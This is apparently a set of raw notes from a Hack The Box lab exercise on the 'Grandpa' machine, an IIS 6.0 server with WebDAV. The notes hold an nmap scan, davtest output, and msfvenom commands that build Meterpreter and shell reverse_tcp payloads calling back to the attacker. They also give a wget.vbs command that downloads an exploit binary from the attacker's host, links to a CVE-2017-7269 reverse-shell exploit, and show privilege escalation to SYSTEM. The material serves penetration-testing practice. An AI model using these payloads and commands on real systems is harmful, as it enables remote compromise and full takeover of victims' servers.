

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 25 Jan 2021 12:34:31 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 --platform Windows -f asp -o rev.asp 

https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/

kali@kali:~/htb/boxes/grandpa/10.10.10.14$ davtest -url http://10.10.10.14      
********************************************************
 Testing DAV connection                                                        
OPEN            SUCCEED:                http://10.10.10.14
********************************************************
NOTE    Random string for this session: ax91_J1Ggk2
********************************************************
 Creating directory                                                            
MKCOL           FAIL                                                           
********************************************************
 Sending test files                                                            
PUT     aspx    FAIL                                                           
PUT     cgi     FAIL                                                           
PUT     shtml   FAIL                                                           
PUT     pl      FAIL                                                           
PUT     asp     FAIL                                                           
PUT     jsp     FAIL                                                           
PUT     php     FAIL                                                           
PUT     txt     FAIL                                                           
PUT     jhtml   FAIL                                                           
PUT     html    FAIL                                                           
PUT     cfm     FAIL                                                           

********************************************************
/usr/bin/davtest Summary:                   

https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell

C:\Documents and Settings>whoami
whoami
nt authority\network service

 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database /opt/Windows-Exploit-Suggester/2020-12-09-mssb.xls -i sysinfo.txt

 https://github.com/hfiref0x/CVE-2015-1701

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS09-020

 cscript wget.vbs http://10.10.14.9:9090/IIS6.0.exe

C:\WINDOWS\Temp>iis.exe cmd
iis.exe cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\Temp>whoami
whoami
-------------------------------------------
kindle-->Got WMI process Pid: 1832 
begin to try
kindle-->Found token SYSTEM 
kindle-->Command:cmd
nt authority\system

msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 --format exe -o rev.exe